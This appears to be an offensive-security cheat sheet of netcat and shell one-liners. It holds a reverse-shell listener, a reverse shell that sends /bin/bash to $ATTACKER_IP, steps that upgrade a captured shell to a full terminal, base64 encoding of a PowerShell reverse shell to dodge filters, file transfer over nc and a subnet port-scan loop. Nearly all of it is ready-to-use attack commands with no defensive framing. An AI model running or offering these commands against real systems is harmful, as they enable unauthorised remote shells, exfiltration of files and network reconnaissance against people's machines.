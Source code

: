 #nc #reverse #listen
Open reverse shell listener on port 4444:
----
```bash
nc -nvlp 4444
```
Beautify reverse shell:
---
#rev #shell #rev-shell #beautify #upgrade

```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
press Ctrl + Z
```shell
stty raw -echo; fg
```
then
```shell
export TERM=xterm-256color
reset
alias ll='ls -lsa --color=auto'
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
stty columns 157 rows 30
```
or if no python present:

```bash
perl -e 'exec "/bin/bash";'
/bin/bash -i
```

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
#CTRL+Z
stty raw -echo; fg
stty rows 34 columns 157;export TERM=xterm-256color;alias ll='ls -lsa --color=auto'
```
or
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
#CTRL+Z
stty raw -echo; fg
stty rows 34 columns 157;export TERM=xterm-256color;alias ll='ls -lsa --color=auto'
```
or
```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
#CTRL+Z;
stty raw -echo; fg;
export SHELL=/bin/bash;export TERM=screen;stty rows 33 columns 156;reset
```
or
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
or
```shell
python -c 'import os; os.system("/bin/bash")'
```

Reverse shell from target to attacker
---
#rev-shell #rev #reverse #shell

```bash
nc -e /bin/bash $ATTACKER_IP 4444
```

Create Base64 shell and execute, filtering bad chars:

```bash
echo "powershell -e ";echo -n $REV_SHELL | base64 -w 0
```
Transfer file
---
#nc #file #transfer 

on receiver
```shell
nc -l -p 1234 > out.file
```
on sender
```shell
nc -w 3 $RECEIVER_IP 1234 < out.file
```
Port scanning:
---
#port-scan #scan

```bash
for i in $(seq 1 254); do nc -zv -w 1 $SUBNET.$i $PORT; done
```
